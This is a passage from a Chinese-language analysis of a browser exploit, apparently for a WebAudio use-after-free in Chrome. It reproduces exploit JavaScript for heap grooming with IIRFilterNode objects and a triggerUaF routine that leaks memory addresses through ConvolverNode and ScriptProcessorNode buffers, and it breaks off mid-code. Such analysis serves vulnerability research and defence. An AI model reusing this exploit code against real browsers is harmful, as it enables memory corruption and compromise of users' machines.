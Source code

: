 有趣的是，利用代码还使用了相对较新的内置[BigInt](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/BigInt)类来处理64位的值，而在漏洞利用中，攻击者一般会使用的是自己的原语。

一开始，代码先初始化OfflineAudioContext，并创建大量的IIRFilterNode对象，用两个浮点数组初始化之。

```
let gcPreventer = [];
let iirFilters = [];

function initialSetup() `{`
    let audioCtx = new OfflineAudioContext(1, 20, 3000);

    let feedForward = new Float64Array(2);
    let feedback = new Float64Array(1);

    feedback[0] = 1;
    feedForward[0] = 0;
    feedForward[1] = -1;

    for (let i = 0; i &lt; 256; i++)
        iirFilters.push(audioCtx.createIIRFilter(feedForward, feedback));
`}`
```

之后，利用代码就进入了利用的初始阶段，试图触发UAF漏洞。利用代码先创建Reverb组件所需的一些对象：再次创建一个巨大的OfflineAudioContext对象和两个ConvolverNode对象，分别是ScriptProcessorNode和AudioBuffer，前者用来启动音频处理，后者用于声道。

```
async function triggerUaF(doneCb) `{`
    let audioCtx = new OfflineAudioContext(2, 0x400000, 48000);
    let bufferSource = audioCtx.createBufferSource();
    let convolver = audioCtx.createConvolver();
    let scriptNode = audioCtx.createScriptProcessor(0x4000, 1, 1);
    let channelBuffer = audioCtx.createBuffer(1, 1, 48000);

    convolver.buffer = channelBuffer;
    bufferSource.buffer = channelBuffer;

    bufferSource.loop = true;
    bufferSource.loopStart = 0;
    bufferSource.loopEnd = 1;

    channelBuffer.getChannelData(0).fill(0);

    bufferSource.connect(convolver);
    convolver.connect(scriptNode);
    scriptNode.connect(audioCtx.destination);

    bufferSource.start();

    let finished = false;

    scriptNode.onaudioprocess = function(evt) `{`
            let channelDataArray = new Uint32Array(evt.inputBuffer.getChannelData(0).buffer);

            for (let j = 0; j &lt; channelDataArray.length; j++) `{`
                if (j + 1 &lt; channelDataArray.length &amp;&amp; channelDataArray[j] != 0 &amp;&amp; channelDataArray[j + 1] != 0) `{`
                        let u64Array = new BigUint64Array(1);
                        let u32Array = new Uint32Array(u64Array.buffer);
                        u32Array[0] = channelDataArray[j + 0];
                        u32Array[1] = channelDataArray[j + 1];

                        let leakedAddr = byteSwapBigInt(u64Array[0]);
                        if (leakedAddr &gt;&gt; BigInt(32) &gt; BigInt(0x8000))
                            leakedAddr -= BigInt(0x800000000000);
```